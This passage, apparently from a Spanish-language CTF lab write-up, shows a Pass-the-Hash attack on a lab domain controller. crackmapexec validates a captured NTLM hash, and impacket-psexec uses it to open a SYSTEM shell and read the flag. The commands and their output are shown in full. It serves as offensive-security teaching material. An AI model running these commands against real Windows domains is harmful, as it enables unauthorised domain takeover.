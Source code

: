 ### Técnica implicada:

**Pass-the-Hash (PtH)** — Esta técnica permite autenticarse en sistemas Windows reutilizando directamente un hash NTLM válido sin necesidad de conocer la contraseña en texto plano.


### **Validación del hash con privilegios administrativos**

Probamos el hash del equipo `FileServer$` con la herramienta `crackmapexec` para verificar si dicha cuenta tenía privilegios elevados.

```bash
─(zikuta㉿zikuta)-[/usr/share/doc/python3-impacket/examples]
└─$ crackmapexec smb 10.201.99.61 -u FileServer\$ -H 'e41da7e79a4c76dbd9cf79d1cb325559'             
SMB         10.201.99.61    445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:SOUPEDECODE.LOCAL) (signing:True) (SMBv1:False)
SMB         10.201.99.61    445    DC01             [+] SOUPEDECODE.LOCAL\FileServer$:e41da7e79a4c76dbd9cf79d1cb325559 (Pwn3d!)
```

**"Pwn3d!"** significa que la cuenta `FileServer$` tiene **privilegios de administrador local** en el servidor `DC01` (controlador de dominio). Esto nos permite ejecutar comandos, extraer hashes y tomar control total del dominio.


### **Ejecución remota con PsExec — Shell como SYSTEM**

Con privilegios administrativos, utilizamos `impacket-psexec` para ejecutar comandos en el DC usando el hash NTLM directamente (sin necesidad de contraseña).


```bash
                                                                  
┌──(zikuta㉿zikuta)-[/usr/share/doc/python3-impacket/examples]
└─$ impacket-psexec -hashes ":e41da7e79a4c76dbd9cf79d1cb325559" SOUPEDECODE.LOCAL/'Fileserver$'@10.201.99.61
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Requesting shares on 10.201.99.61.....
[*] Found writable share ADMIN$
[*] Uploading file vzlxMxBf.exe
[*] Opening SVCManager on 10.201.99.61.....
[*] Creating service UdTF on 10.201.99.61.....
[*] Starting service UdTF.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.20348.587]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32> cd C:\Users\Administrator\Desktop
 
C:\Users\Administrator\Desktop> type root.txt
______________
```
